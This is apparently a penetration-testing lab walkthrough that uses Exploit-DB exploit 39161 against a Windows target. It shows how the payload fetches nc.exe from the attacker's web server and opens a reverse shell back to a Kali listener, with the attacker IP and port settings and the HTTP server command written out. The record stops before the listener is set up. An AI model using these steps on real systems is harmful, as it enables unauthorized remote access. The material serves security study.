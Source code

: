 ```
vim 39161.py

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe)
#           You may need to run it multiple times for success!
```

The way this exploit works is that once the exploit is launched, it is then going to connect to a web server that we will set up locally to host the Netcat executable. That Netcat executable is then going to be executed on the target system that's running Windows. And it is going to be used to connect to our Kali Linux IP address, which in this case, we need to specify ourselves.

Identify our Kali Linux IP.

```
ifconfig
eth1: inet 10.10.0.2
```

Kali Linux IP Address: 10.10.0.2

```
ip_addr = "10.10.0.2" #local IP address
```

And then the local port, this is going to be the port that we will be listening on with Netcat.

```
local_port = "1234" # Local Port number
```

And then we have additional variables that contain the Visual Basic script that will be used to execute Netcat or to download Netcat, and then connect to our Netcat listener.

It's downloading the Netcat executable from our server. It then connects to the Kali Linux IP on the port that we have specified here on our Netcat listener. And it should then provide us with a command session on the target system on our Netcat listener.

Kali Linux already has the Windows Netcat executable available. 

```
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
ls
ls -al
```

We're going to need three Windows. One of them will be exploiting or will be running the exploit itself. The next terminal is where we will be setting up our web server to host the Netcat executable. 

In order to do this, we will be utilizing the Python module SimpleHTTPServer.

```
python -m SimpleHTTPServer 80
```

We then need to open up a new terminal session here. And this is where our Netcat listener is going to be running, and this is where we'll obtain our command shell session.

Set up our Netcat listener.
